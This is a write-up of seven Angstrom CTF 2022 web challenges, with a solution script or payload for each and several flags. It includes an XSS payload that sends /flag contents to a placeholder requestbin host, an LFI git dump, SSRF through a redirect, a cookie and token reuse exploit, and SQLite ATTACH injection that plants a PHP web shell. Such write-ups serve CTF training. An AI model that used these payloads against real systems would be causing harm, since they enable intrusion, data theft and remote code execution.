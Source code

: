 # Angstrom CTF 2022 - Web
--------------------------

## 1- Auth-Skip
#### about :
- Type: web 
- Level: easy
- Points : 50

<center><img src="../images/auth-skip.PNG"></center>

Easy challenges, just login with cookie user : admin and you get the flag

```python
import requests

URL = 'https://auth-skip.web.actf.co/'

cookies = {'user':'admin'}

r = requests.get(URL, cookies=cookies)
print(r.text)
```

**actf{passwordless_authentication_is_the_new_hip_thing}**

## 2- crumbs
#### about :
- Type: web 
- Level: easy
- Points : 50


<center><img src="../images/crumbs.PNG"></center>

if we look at teh source code : 

```js
const app = express();
const port = Number(process.env.PORT) || 8080;

const flag = process.env.FLAG || "actf{placeholder_flag}";

const paths = {};
let curr = crypto.randomUUID();
let first = curr;

for (let i = 0; i < 1000; ++i) {
    paths[curr] = crypto.randomUUID();
    curr = paths[curr];
}

paths[curr] = "flag";

app.use(express.urlencoded({ extended: false }));

app.get("/:slug", (req, res) => {
    if (paths[req.params.slug] === "flag") {
        res.status(200).type("text/plain").send(flag);
    } else if (paths[req.params.slug]) {
        res.status(200)
            .type("text/plain")
            .send(`Go to ${paths[req.params.slug]}`);
    } else {
        res.status(200).type("text/plain").send("Broke the trail of crumbs...");
    }
});
```
it seems like a serie of random slugs ,we need to keep sending the slug we received in another requests on the same **session** , my code : 
```python
import requests as rq 
s= rq.Session()
rs = s.get("https://crumbs.web.actf.co" , verify=True)
while True : 
    print(rs.text)
    rs = s.get("https://crumbs.web.actf.co/"+rs.text[6:] , verify=True)
```

## 3- Xtra Salty Sardins   
#### about :
- Type:  web
- Level: medium 
- Points : 70

<center><img src="../images/sardins.PNG"></center>

As the name says , it is an XSS vulnerabilty , we just need to bypass some checks , the final payload is : 

```html
<script><script>fetch(`/flag`).then(r=>r.text()).then(t=>fetch(`https://[YOUR_REQUESTBIN]?cc=`+btoa(t)))</script>
```

**actf{those_sardines_are_yummy_yummy_in_my_tummy}**


## 4- Art Gallery
#### about :
- Type: web 
- Level: medium
- Points : 130

<center><img src="../images/art-gallery.PNG"></center>

this one consist of a local file inclusion, and we try too get the **.git** folder, I used git-dump `git-dumper https://art-gallery.web.actf.co/gallery?member=../.git/ outpu -r 4` 

and checking logs I found the flag

<center><img src="../images/ag-poc.PNG"></center>

## 5- School Unblocker
#### about :
- Type: web 
- Level: medium
- Points : 130

<center><img src="../images/school.PNG"></center>

It's a website thet gets you the content of any url , so we try to get the /flag , using a Redirect requests 

in our server : 
```php
<?php
header("Location: http://localhost:8080/flag",true,307);
?>
```
and we send a request 
```python
import requests

URL = 'https://school-unblocker.web.actf.co/proxy'
data = {"url":"http://SERVER"} 

r = requests.post(URL, data=data)
print(r.text)
```

## 6- Secue Vault
#### about :
- Type: web 
- Level: hard
- Points : 130

<center><img src="../images/vault.PNG"></center>

solution code : 
```python
import requests

URL = 'https://secure-vault.web.actf.co'

def register(username,password):
    data = {"username":username,"password":password}
    req = requests.post(URL+'/register', data=data,allow_redirects=False)
    return req.cookies['token']

def deleteToken(token):
    cookies = {'token':token}
    req = requests.post(URL+'/delete',cookies=cookies)

def getFlag(token):
    cookies = {'token':token}
    req = requests.get(URL+'/vault',cookies=cookies)
    return r.text

if __name__ == '__main__':
    token = register("aynkl","admin")
    deleteToken(token)
    print(getFlag(token))
```

## 7- No Flags?
#### about :
- Type: web 
- Level: hard
- Points : 130

<center><img src="../images/noflag.PNG"></center>

an obvious sql injection but teh flag isn't in a databases , we will try to escalate to an RCE , with ATTACH in sqlite  , the payload is as follows : 

```html
web');ATTACH DATABASE '/var/www/html/abyss/web1.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?php system($_GET["cmd"]);?>
```

then we try to visite the : https://no-flags.web.actf.co/abyss/web1.php?cmd=/printflag;

**actf{why_do_people_still_use_php}**